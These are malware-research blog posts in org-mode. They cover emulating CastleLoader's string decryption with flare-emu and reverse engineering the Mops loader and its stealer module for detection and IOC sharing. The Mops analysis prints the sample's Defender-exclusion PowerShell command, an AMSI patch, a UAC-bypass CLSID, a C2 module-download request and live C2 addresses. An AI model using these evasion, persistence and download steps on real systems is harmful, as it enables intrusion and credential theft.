- On the detection side, my CAPA attempts are honestly a starting
  point. The technique is generic enough that signatures will lag
  behind any author who is willing to swap the faulting instruction or
  wrap the registration call. I think the more durable signal is
  behavioural: a handler that writes to =ContextRecord->Rip= / =Eip= and
  returns =EXCEPTION_CONTINUE_EXECUTION= is doing something a
  well-behaved program almost never needs to do (hope so...) but turning that into
  a rule that does not light up on every C++ runtime is its own
  project.

If you spotted something wrong, or if you have a cleaner way of writing
the CAPA rules, I would genuinely like to hear it. The references at
the top of this post ([[https://www.sonicwall.com/blog/guloader-demystified-unraveling-its-vectored-exception-handler-approach][SonicWall]], [[https://www.zscaler.com/blogs/security-research/technical-analysis-guloader-obfuscation-techniques][Zscaler]], [[https://www.slideshare.net/slideshow/unmasking-the-dark-art-of-vectored-exception-handling-bypassing-xdr-and-edr-in-the-evolving-cyber-threat-landscape/263989842?utm_source=clipboard_share_button&utm_campaign=slideshare_make_sharing_viral_v2&utm_variation=control&utm_medium=share][CrowdStrike]], [[https://www.ibm.com/think/x-force/using-veh-for-defense-evasion-process-injection][IBM]], [[https://unit42.paloaltonetworks.com/malware-configuration-extraction-techniques-guloader-redline-stealer/][Unit42]])
remain the better place to read about VEH in the wild; this article is
just my attempt to understand the plumbing well enough to recognise it
next time.

/Other great resources:/
- [[https://blog.talosintelligence.com/exceptional-behavior-windows-81-x64-seh/][Talos - Exceptional behavior: the Windows 8.1 X64 SEH Implementation]]
- [[https://blog.elmo.sg/posts/structured-exception-handler-x64/][Elmo.sg - A deep dive into modern Windows Structured Exception Handler (SEH) ⚠️]]  
- [[https://datafarm-cybersecurity.medium.com/code-execution-against-windows-hvci-f617570e9df0][Datafarm - Code Execution against Windows HVCI]]  

* DONE Emulating CastleLoader with Flare-Emu 🏰                                           :@IDA:python:
SCHEDULED: <2026-09-10 Thu>
:PROPERTIES:
:EXPORT_FILE_NAME: flare-emu-castle
:EXPORT_HUGO_ALIASES: /notes/flare-emu-castle/
:END:

#+begin_description
A quick reference for configuring Unicorn stack frames and emulating a CastleLoader xor loop with the flare-emu plugin.
#+end_description

While analyzing a sample of [[https://malpedia.caad.fkie.fraunhofer.de/details/win.castleloader][CastleLoader]] I decided to test out [[https://github.com/mandiant/flare-emu][flare-emu]] an
emulator based on [[https://github.com/unicorn-engine/unicorn][Unicorn]]. Here are a few notes I want to keep for future reference.

For this experiment, the following sample was used: [[https://bazaar.abuse.ch/sample/39addeb849aa7bd86dd08c260d5cb1d9e28bb5b194d7739341f99d816d8b61ca/][sha256: 39addeb849aa7bd86dd08c260d5cb1d9e28bb5b194d7739341f99d816d8b61ca]].

The string obfuscation is fairly straightforward; the obfuscated data is constructed directly on the stack:
#+begin_src
.text:00197730 33 C0                                   xor     eax, eax
.text:00197732 C7 45 88 68 00 71 00                    mov     [ebp+var_78], 710068h
.text:00197739 C7 45 8C 3D 00 32 00                    mov     [ebp+var_74], 32003Dh
.text:00197740 33 C9                                   xor     ecx, ecx
.text:00197742 C7 45 90 3A 00 2A 00                    mov     [ebp+var_70], 2A003Ah
.text:00197749 C7 45 94 66 00 7B 00                    mov     [ebp+var_6C], 7B0066h
.text:00197750 C7 45 98 34 00 2B 00                    mov     [ebp+var_68], 2B0034h
.text:00197757 C7 45 9C 78 00 77 00                    mov     [ebp+var_64], 770078h
.text:0019775E C7 45 A0 39 00 2B 00                    mov     [ebp+var_60], 2B0039h
.text:00197765 C7 45 A4 78 00 73 00                    mov     [ebp+var_5C], 730078h
.text:0019776C C7 45 A8 33 00 2B 00                    mov     [ebp+var_58], 2B0033h
.text:00197773 C7 45 AC 7A 00 70 00                    mov     [ebp+var_54], 70007Ah
.text:0019777A C7 45 B0 2F 00 76 00                    mov     [ebp+var_50], 76002Fh
.text:00197781 C7 45 B4 2C 00 30 00                    mov     [ebp+var_4C], 30002Ch
.text:00197788 C7 45 B8 76 00 6C 00                    mov     [ebp+var_48], 6C0076h
.text:0019778F C7 45 BC 2A 00 27 00                    mov     [ebp+var_44], 27002Ah
.text:00197796 66 89 45 C0                             mov     [ebp+var_40], ax	
#+end_src

The deobfuscation routine then relies on a basic XOR loop:
#+begin_src 
.text:001977A0                         unxor_loop:                             ; CODE XREF: sub_197400+3BD↓j
.text:001977A0 8B C1                                   mov     eax, ecx
.text:001977A2 83 E0 03                                and     eax, 3
.text:001977A5 0F B6 80 18 0A 1C 00                    movzx   eax, ds:byte_1C0A18[eax]
.text:001977AC 66 33 44 4D 88                          xor     ax, word ptr [ebp+ecx*2+var_78]
.text:001977B1 66 89 84 4D 4C FF FF FF                 mov     [ebp+ecx*2+var_B4], ax
.text:001977B9 41                                      inc     ecx
.text:001977BA 83 F9 1D                                cmp     ecx, 1Dh
.text:001977BD 72 E1                                   jb      short unxor_loop	
#+end_src

To emulate this using =flare-emu=, I wrote the Python snippet below.
Initially, the emulation failed because I didn't account for the required stack frame size.

To fix this, I had to manually allocate a larger stack frame by adjusting the =ebp= and =esp= registers.
Because the x86 stack grows downwards, establishing this safe workspace requires two steps:
1. =ebp = sp + 0x400= establishes a safe starting line.
   By moving the Base Pointer higher in memory, it prevents the emulated code from accidentally overwriting existing stack data.
2. ="esp": ebp - 0x600= defines the actual size of the frame.
   Subtracting 0x600 carves out extra bytes of usable stack space between the base pointer and the new top of the stack.

#+begin_src python +n
from flare_emu import EmuHelper

START = 0x197730
END   = 0x1977BF          # instruction AFTER the loop (the lea), NOT the jb at 0x1977BD

eh  = EmuHelper()
sp  = eh.getRegVal("esp") # need to retrieve the actual value set by Unicorn
ebp = sp + 0x400          # increase the stack base size here

eh.emulateRange(
	START,
	endAddr=END,
        registers={"ebp": ebp, "esp": ebp - 0x600})       # her 

raw = eh.getEmuBytes(ebp - 0xB4, 29 * 2)                  # var_B4, 29 wide chars
print(raw.decode("utf-16-le", errors="replace").split("\x00")[0])	
#+end_src

#+RESULTS:

The output of the decoded strings is: ='http://94.159.113.32/service\x00'=

Here are a few other useful functions I noted down while experimenting with the plugin:

#+begin_src python
sp = eh.getRegVal("esp")
print(f"Stack Pointer is at: {hex(sp)}")
#+end_src

To read data from the stack using the pointer
First option is to read a pointer-sized value (4 bytes on 32-bit, 8 bytes on 64-bit) 
This is useful for grabbing variables, arguments, or return addresses
#+begin_src python
top_of_stack = eh.getEmuPtr(sp)
print(f"Value at top of stack: {hex(top_of_stack)}")
#+end_src

Read a value at an offset (e.g., =[esp + 8]=)
#+begin_src python
offset_val = eh.getEmuPtr(sp + 8)
print(f"Value at ESP+8: {hex(offset_val)}")
#+end_src

Read a chunk of raw bytes from the stack, for reading structs, strings,
or buffers pushed to the stack
#+begin_src python
stack_buffer = eh.getEmuBytes(sp, 16) # Reads 16 bytes starting at ESP
print(f"Raw stack bytes: {stack_buffer.hex()}")
#+end_src

Read a null-terminated string from the stack, useful if a function decrypted
a string directly onto the stack
#+begin_src python
stack_string = eh.getEmuString(sp)
print(f"String on stack: {stack_string}")
#+end_src

* DONE Mops: a WebSocket loader and its stealer module 🐶 :@RE:loader:stealer:C2:
SCHEDULED: <2026-10-17 Sat>
:PROPERTIES:
:EXPORT_FILE_NAME: mops
:END:

#+begin_description
Mops is a modular x64 loader delivered by MixLoader and packed with the Golang packer Dormouse. It talks
to its operator over a hand-rolled WebSocket channel, keeps a 64-domain DGA as fallback, and receives all of
its capabilities as DLL modules mapped into a suspended cmd.exe. This post details the loader, its C2
protocol, and the two modules recovered from the live infrastructure: the Mops stealer (also seen branded
Redhive) and an update/download-and-execute module.
#+end_description



This analysis is based on a single sample of the Mops Loader (=265994409a3d…=, campaign =6925266445=).
Two other builds were only run through the configuration extractor, to compare their settings (see
[[*Builds and campaigns][Builds and campaigns]]); their code was not reversed. The analysed sample is available on
[[https://bazaar.abuse.ch/sample/265994409a3dbd511ff5bd6a6d24dea5b089d41f1dea8dcaeaabccd530ea09dd/][MalwareBazaar]], and my IDA database of it is in the [[*Tooling][Tooling]] section.

Keep this in mind before reusing the values given here. Anything that is a build parameter rather than a
design choice is likely to change in the next versions: the hardcoded C2, the ports (406, 408 and 1488),
the campaign ID, the install path, the mutex and registry names, the string-encryption constants, and even
the fixed WebSocket key or the =jhkaloip= answer used to fingerprint the servers. Some of them have already
changed between the builds known so far: the C2 is an IP address in some and a domain in others, and the string-encryption constants differ from one build to another. The behaviour (the WebSocket protocol, the
module-based tasking and the stealer's collection logic) is a sturdier basis for detection than any
single value.

** TL;DR Mops

- *Delivery chain*: MixLoader → Dormouse (Go packer) → *Mops Loader* → modules fetched on demand.
- *A real modular loader*: no shell, no file manager, no stealer code, and no hardcoded list of modules.
  It resolves a C2, waits for =createtask= orders naming /any/ module, and runs the requested DLL inside a
  suspended, windowless =cmd.exe=.
- *C2*: WebSocket over a raw socket on a non-standard port, with the RFC 6455 /sample/ key hardcoded,
  plain-text =;=-separated messages, and a fallback chain *hardcoded IP → registry cache → DGA*
  (64 =duckdns.org= names, no date seed).
- *Next stage*: the first, automatic task of every new bot is the platform's own stealer module, which
  calls itself *Mops Stealer V3* (an older build was branded *Redhive Stealer*). It runs 49 collection
  tasks in parallel (browsers, Chrome App-Bound Encryption bypass, crypto wallets, 2FA extensions, Telegram,
  Discord, gaming launchers, VPN, and even AI coding assistants credentials), zips everything in memory and
  ships it over a raw TCP socket.
- *Beyond the stealer*: a second module can replace the loader with a new build or download and run any
  executable. The stealer is the only module my fake bots were ever tasked with, but follow-on payloads are
  typically pushed only to bots whose stolen data looks valuable.
- *Infrastructure*: three loader builds (two campaigns use the C2 domain =mops.to=), four C2 servers, and a
  =checkserver= answer that never changes and makes the servers easy to fingerprint.
- A config extractor and the full DGA list are provided at the end of this post.

** Delivery chain and naming

The sample analysed here is the resident stage of a multi-layer chain. An initial access component
tracked as *MixLoader* drops a payload packed with *Dormouse*, a packer written in Go.
#+begin_sidenote
Dormouse embeds an encrypted and compressed PE, attempts a UAC elevation, weakens Microsoft Defender, then
drops and runs its payload.
#+end_sidenote
Once unpacked, the payload is a native x86-64 implant which I call the *Mops Loader*: its only first-party
purpose is to settle on the host and pull additional modules from its operator.

The roles are cleanly separated:

| Component     | Role                                                     |
|---------------+----------------------------------------------------------|
| MixLoader     | initial access, delivers the packed payload              |
| Dormouse      | Go packer / dropper                                      |
| Mops Loader   | persistent C2 client and module runner                   |
| Mops modules  | post-exploitation capabilities, delivered as DLL modules |

#+caption: Mops infection chain, from delivery to exfiltration


Two modules were recovered from the live infrastructure: a stealer (the =Stealer= module type, which calls
itself /Mops Stealer V3/ in its latest build and /Redhive Stealer/ in an older one) and a small update and download-and-execute module. Both are described in the
[[*Next stage: the modules][Next stage]] section.

** The Mops Loader

*** Obfuscation and string encryption

The loader is a 64-bit PE (10 sections, around 600 KB) protected with an LLVM-style obfuscator: opaque
predicates, mixed boolean-arithmetic (MBA) expressions, direct calls replaced by lookups in call tables,
and =lea/mov/jmp reg= trampolines that defeat a naive linear disassembly. None of this adds runtime
capability, it only slows down static analysis.

Every meaningful string is encrypted, so a plain =strings= gives nothing useful. Most strings live in
=.rdata= and are decrypted on demand by small per-length wrappers that call a one-byte primitive:

#+begin_src python
def ror8(value: int, count: int) -> int:
    return ((value >> count) | (value << (8 - count))) & 0xFF

def decrypt(blob: bytes) -> bytes:
    """Mops .rdata string decryption (wide strings use the low byte of each WCHAR)."""
    return bytes(ror8(b, i % 7 + 1) ^ ((13 * i - 105) & 0xFF) for i, b in enumerate(blob))
#+end_src

A second class of strings, used mostly by the tasking logic, is built on the stack and decrypted with an
AES-CTR routine keyed by an 8-byte seed stored in =.data=. These are easier to recover by emulating the
decryption routine (Unicorn does the job) than by reimplementing it. API resolution follows the same idea:
encrypted DLL and function names, resolved at runtime with =LoadLibraryA= / =GetProcAddress= and stored in
global slots.

The two constants of the primitive (=13= and =-105= above) are not fixed: other builds use other values
(=13= and =+141= for instance). They are easy to recover from the =imul= / =add= pair that follows the
=movzx eax, al= in the primitive, which is what the extractor provided at the end of this post does.

*** Builds and campaigns

Besides the analysed sample, two other loader builds were run through the configuration extractor. Their
configuration follows the same layout, but they use a domain instead of a hardcoded IP and suffix their artefacts with an =A=, probably so that two builds can live
side by side on the same host:

| Build (SHA-256, short) | Campaign     | Hardcoded C2       | Install path / mutex                                  |
|------------------------+--------------+--------------------+-------------------------------------------------------|
| =265994409a3d…=        | =6925266445= | =45.91.202.]146=   | =RuntimeBroker.exe= / =Global\RuntimeBrokerAds=       |
| =77afc987c830…=        | =5749377762= | =mops.]to=        | =RuntimeBrokerA.exe= / =Global\RuntimeBrokerAdsA=     |
| =4094bddf226f…=        | =8934503551= | =mops.]to=        | =RuntimeBrokerA.exe= / =Global\RuntimeBrokerAdsA=     |

All of them report version =1.0.0=, keep ports 406/408, the =WinRAR\Libs= module cache and the
=.duckdns.org= DGA suffix. The operators did not even bother to hide the family name: it is the C2 domain.

Another build, not analysed here, was described publicly by winslow (see [[*References][References]]): it installs
itself as the same =RuntimeBroker.exe= with the same =Global\RuntimeBrokerAds= mutex and four scheduled tasks,
and talks to =145.63.134.]94= on ports 406, 408 and 1488, the server that also received the =1.0.2= stealer's
loot. It was delivered differently, through a fake GitHub repository and a PowerShell stager rather than
MixLoader.

*** Anti-analysis

Before doing anything else, the loader checks that it is not running in a VM, a sandbox or under a debugger,
and silently exits otherwise:

| Check            | Implementation                                                                                         |
|------------------+--------------------------------------------------------------------------------------------------------|
| Display          | =EnumDisplaySettingsW=: exit if the refresh rate is below 50 Hz (headless or emulated display)         |
| Guest drivers    | =GetModuleHandleA= on VirtualBox, VMware, QEMU, Parallels and Xen drivers (=VBoxGuest.sys=, =vmhgfs.sys=...) |
| Guest devices    | =CreateFileA= on =\\.\VBoxMiniRdrDN=, =\\.\HGFS=, =\\.\prl_usb_mouse=                                     |
| CPUID            | hypervisor vendor leaf (=KVMKVMKVM=, =VMwareVMware=, =XenVMMXenVMM=, =VBoxVBoxVBox=...)                   |
| CPU brand        | brand string containing =EPYC=, =Broadwell= or =G6900= (typical cloud sandboxes)                        |
| GPU name         | =Direct3DCreate9= adapter name: VMware SVGA, VirtualBox, QXL, Virtio, Hyper-V... and =anyrun GPU=        |
| Timing (thread)  | =QueryPerformanceCounter= drift around a =Sleep=                                                       |
| Debugger (thread)| =NtQueryInformationProcess(ProcessDebugObjectHandle)= in a loop                                         |

The GPU check is worth noting: the list explicitly contains the adapter name of a public sandbox service.

*** Installation, privilege escalation and persistence

Once the environment looks genuine, the loader:

1. creates a single-instance mutex (=Global\RuntimeBrokerAds=);
2. patches AMSI in its own process (see below);
3. copies itself to =C:\ProgramData\Windows\Microsoft\RuntimeBroker.exe=, sets the file /hidden/ and /system/,
   starts this copy and exits, so the long-running instance always lives under the disguised path;
4. if the process is not a member of the local Administrators group, it elevates with the well-known
   *CMSTPLUA* COM UAC bypass.
   #+begin_sidenote
   =Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}= then =ICMLuaUtil::ShellExec=.
   #+end_sidenote
   Before the elevation it rewrites its own PEB (image path and command line) so that it looks like
   =explorer.exe=, a precondition for the elevation to be granted silently;
5. enables =SeDebugPrivilege=, =SeAssignPrimaryTokenPrivilege= and =SeIncreaseQuotaPrivilege=;
6. registers four scheduled tasks through the Task Scheduler COM API (=ITaskService=), so no =schtasks.exe=
   command line is ever visible.

| Task                                                                        | Trigger              |
|-----------------------------------------------------------------------------+----------------------|
| =\Microsoft\Windows\SoftwareProtectionPlatform\SvcRestartTaskWindowsLogins= | boot                 |
| =\Microsoft\Windows\RegisterDeviceAccountChange\ProgramDataUpdate=          | boot + 5 s           |
| =\Microsoft\Windows\EDP\ScheduledDef=                                       | boot + 15 s          |
| =\Microsoft\Location\MicrosoftUpdaterMachineCore=                           | every 30 minutes     |

The task descriptions are copied from genuine Microsoft ones ("Updates compatibility database",
"Handles restoring settings from the cloud") and run with the highest privileges when the implant is
elevated. The binary also contains a critical-process routine (=RtlSetProcessIsCritical=, with a hidden
window that clears the flag on =WM_QUERYENDSESSION= so the machine can still shut down), but it is not
reachable from the main flow in this build.

*** Defense evasion

- *AMSI*: the loader resolves =AmsiOpenSession=, makes it writable and overwrites the first bytes with
  =48 31 C0= (=xor rax, rax=). The original =test rdx, rdx= disappears, the following =jz= is always taken and
  every scan request fails with =E_INVALIDARG=.
- *Microsoft Defender*: a dedicated thread starts a hidden =cmd.exe= that excludes both working
  directories and refreshes the policy:

#+begin_src powershell
powershell -Command "Add-MpPreference -ExclusionPath 'C:\ProgramData\Windows\Microsoft','C:\ProgramData\Microsoft\Windows'" && gpupdate /force
#+end_src

** Command and control

*** Finding a live server

The C2 resolution follows a fixed order:

1. a TCP probe of the *hardcoded C2* on port 406 (an IP address in the first build, =mops.to= in the later ones);
2. a host *cached in the registry* by a previous session (=HKCU\Software\Microsoft\EventSystem=, value =System=);
3. the *DGA*: if both fail, two background threads keep re-probing (1) and (2) every 60 seconds while the
   main thread walks through the generated domains.

The DGA has no date component: it is every ordered combination of six tokens taken from ={lav, ini}=,
suffixed with =.duckdns.org=. The whole space is only 2^6 = 64 domains, which can be enumerated and blocked
in advance:

#+begin_src python
import itertools

def mops_dga(suffix: str = "duckdns.org") -> list[str]:
    return ["".join(c) + "." + suffix for c in itertools.product(("lav", "ini"), repeat=6)]

# lavlavlavlavlavlav.duckdns.org ... iniiniiniiniiniini.duckdns.org
#+end_src

Every candidate is validated before being used: the loader opens a WebSocket and sends
=checkserver;<bot_id>;<16 random alphanumeric chars>=. The server is accepted if, and only if, its answer is
exactly 8 bytes long. Failed names go into an in-memory blacklist; the first server that answers correctly
wins and is written back to the registry, so the next run reconnects immediately.

#+caption: =c2_checkserver=: the probe sent to every candidate C2; only the length of the answer is checked


*** A hand-rolled WebSocket

The transport is a WebSocket client written on top of raw Winsock (no WinHTTP), on TCP/406. The upgrade
request always carries the same key:

#+begin_src text
GET / HTTP/1.1
Host: <c2>
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
#+end_src

=dGhlIHNhbXBsZSBub25jZQ=== is "the sample nonce", the example value of RFC 6455.
#+begin_sidenote
RFC 6455, section 1.3: [[https://www.rfc-editor.org/rfc/rfc6455#section-1.3][Opening Handshake]]. A
legitimate client must send a random nonce for every connection.
#+end_sidenote
A real browser never sends it, which makes it an excellent network signature. The expected answer is
equally static:

#+begin_src python
import base64, hashlib

key = "dGhlIHNhbXBsZSBub25jZQ=="
magic = "258EAFA5-E914-47DA-95CA-C5AB0DC85B11"
print(base64.b64encode(hashlib.sha1((key + magic).encode()).digest()).decode())
# s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
#+end_src

Client frames are binary (=0x82=) and always masked (mask = =GetTickCount() ^ buffer pointer=); the 64-bit
length encoding is buggy, so the client never sends large frames. The application payload is plain ASCII,
=;=-separated, with no additional encryption.

#+caption: =ws_send_frame=: binary frame, predictable masking key and broken 64-bit length


*** Session protocol

The bot identifier is the serial number of the =C:\= volume, rendered as 8 lowercase hexadecimal characters:
stable across reboots, unique enough per machine.

| Direction | Message                                                | Purpose                         |
|-----------+--------------------------------------------------------+---------------------------------|
| bot → C2  | =ready;<bot_id>;version;1.0.0=                         | first frame, announces the build |
| C2 → bot  | =getinfo=                                              | host profiling request          |
| bot → C2  | =info;<antivirus>;<OS>;<user>;<campaign_id>=           | answer (WMI =SecurityCenter2=)   |
| C2 → bot  | =ping=                                                 | keepalive, answered by =pong=   |
| C2 → bot  | =task;createtask;<type>;task_id;<id>;version;<ver>=    | run a module                    |
| C2 → bot  | =task;closetask;...=                                   | kill a running module           |
| bot → C2  | =task_done;<task_id>=                                  | module launched                 |

The version is sent in the first frame and the campaign identifier in the =info= answer, which lets the
operator split infections per build and per campaign.

*** Tasking: how a module is run

A =createtask= order names a module /type/ and /version/. The loader then:

1. looks for the module in a *registry cache* under a key borrowed from an unrelated application,
   =HKCU\Software\WinRAR\Libs=, stored as =REG_BINARY= chunks named =<type>_<ver>_chunk_<n>= (200 KB each,
   3 MB max). Cached versions of the same type that do not match are deleted;
2. if it is not cached, *downloads* it over plain HTTP from the hardcoded IP on *port 408*, with the bot
   identifier as User-Agent, checks that the answer is a DLL (=IMAGE_FILE_DLL=) and stores it
   (first as =_tempchunk_= values, then renamed);
3. starts =C:\Windows\System32\cmd.exe= with =CREATE_SUSPENDED | CREATE_NO_WINDOW= and *manually maps* the
   DLL into it (=NtAllocateVirtualMemory=, =NtWriteVirtualMemory=, a small loader stub, a 56-byte context
   holding the task parameter, =NtCreateThreadEx=);
4. records the host PID against the task identifier, so that a later =closetask= can terminate it.

#+begin_src text
GET /task/Stealer HTTP/1.1
Host: <c2>
User-Agent: <bot_id>
Connection: close
#+end_src

A special parameter, =update=, makes the loader acknowledge the task, clear its critical-process state and
exit, leaving room for a freshly delivered build (see the update module below).

*** What the live C2 actually does

To see the operator side, I wrote an emulated bot that speaks the protocol above, never executes anything,
and only saves the downloaded modules to disk. It was connected over Tor to the hardcoded server and to two
other servers of the same infrastructure. Some observations differ from what the static analysis suggested:

- the C2 sends =getinfo= first, then a =ping= keepalive every 15 seconds;
- in real traffic, the module type is a *positional* field right after the command:
  =task;createtask;Stealer;task_id;x55oh5_tyf7;version;1.0.3=;
- task identifiers are random 11-character tokens (=[a-z0-9_]=), not counters. Yet the hardcoded C2 sent
  *the same* =task_id= to every bot I connected, whatever its bot identifier: it is a campaign-wide
  "autorun" task, not an order targeting a specific victim;
- the server validates nothing: a bot announcing version =2.0.0=, or sending a junk campaign identifier,
  receives the same task and can download the module;
- the task =version= is the *module* version, independent of the loader build (=1.0.0=). Two stealer builds
  were served: =1.0.3= by the hardcoded C2, =1.0.2= by another server;
- one server (=188.137.246.]156=) answered and kept the session alive, but never sent any task;
- the =checkserver= probe is always answered with the same 8 bytes, =jhkaloip=, on every server tested.

This is the classic behaviour of a pay-per-install style platform: as soon as a new bot checks in, the
first task is to run the stealer.

**** Fingerprinting the servers

The constant =checkserver= answer, combined with the static WebSocket key, makes the C2 trivial to
fingerprint: send the RFC 6455 sample key on port 406, then =checkserver;<8 hex>;<16 chars>=, and check
whether the answer is =jhkaloip=. An Internet-wide search (Censys, October 2026) returned four hosts: the
three already known and one more in the same /24 as the hardcoded C2 (=45.91.202.]47=).

** Next stage: the modules

Mops is not a stealer with a loader bolted on: the loader is module-agnostic, and the operator decides what
each bot runs. In the observed campaigns, the decision is always the same for a new bot: the C2 hands out a
single, campaign-wide =createtask Stealer= order (the same =task_id= for every bot), so the stealer runs
first, everywhere. The second module, which can update the loader or deploy any executable, is what turns a
stolen-data harvest into a foothold that can be resold or reused; none of my emulated bots received such a
task, which is expected for bots that have nothing interesting to steal.

Both recovered modules follow the same contract, which says a lot about how the platform is built:

- they are DLLs whose =DllMain= *refuses to run outside a Mops host*: they exit unless the loader's mutex
  (=Global\RuntimeBrokerAds=) already exists, then take their own mutex (=Global\StealerLib=,
  =Global\LoaderLib=). Run on its own, without the loader's mutex, a module simply exits;
- the work is done in a new thread; the task parameter comes either from the injected context or from an
  =INJECT_PARAM= environment variable;
- they compute the bot identifier exactly like the loader (=C:\= volume serial), so whatever they send back
  can be correlated with the bot on the operator side.

*** The Mops stealer (=Stealer= module)

The =Stealer= module is a C++ DLL. Two builds were recovered from the live servers, and they do not even
agree on their own name: the first line of their system report is the developer's banner.

| Module version | Size    | Banner in =System.txt=           | Exfiltration server  |
|----------------+---------+----------------------------------+----------------------|
| =1.0.2=        | 1.4 MB  | =- Redhive Stealer:= (=11.05.2026=) | =145.63.134.]94:1488= |
| =1.0.3=        | 1.1 MB  | =- Mops Stealer V3: 08.09.2026=  | =45.91.202.]146:1488= |

Both have the same task list and the same exfiltration protocol: between the two builds, the developer
renamed the module from *Redhive Stealer* to *Mops Stealer V3*, after the loader. Build =1.0.2= is the one
winslow documented under the Redhive name after being infected through a fake GitHub repository
([[https://winslow1984.com/books/threat-intelligence/page/hey-you-hacked-a-hacker-are-you-ready-for-my-revenge][Hey, You Hacked a Hacker! Are You Ready For My Revenge?]]); the SHA-256 given there matches the one listed
in the IOCs below. From here on I will simply call it the Mops stealer. Its entry point enables =SeDebugPrivilege= and
=SeImpersonatePrivilege=, then starts *49 named tasks, each in its own thread*, and waits for all of them:

| Category           | Tasks / targets                                                                                                   |
|--------------------+-------------------------------------------------------------------------------------------------------------------|
| System             | screenshots (GDI + GDI+ JPEG), clipboard, process list, installed software, Windows product key, system report    |
| Browsers           | passwords, cookies, autofill, installed browsers: about 60 Chromium-based browsers, Firefox and its forks, Tor Browser |
| Chrome ABE         | =EncryptKey= and =AppBoundKey= tasks (see below)                                                                   |
| Crypto             | dozens of desktop wallets (Exodus, Electrum, Atomic, Ledger Live, Monero, Wasabi...) and wallet extensions (MetaMask, Phantom, Trust, OKX...)          |
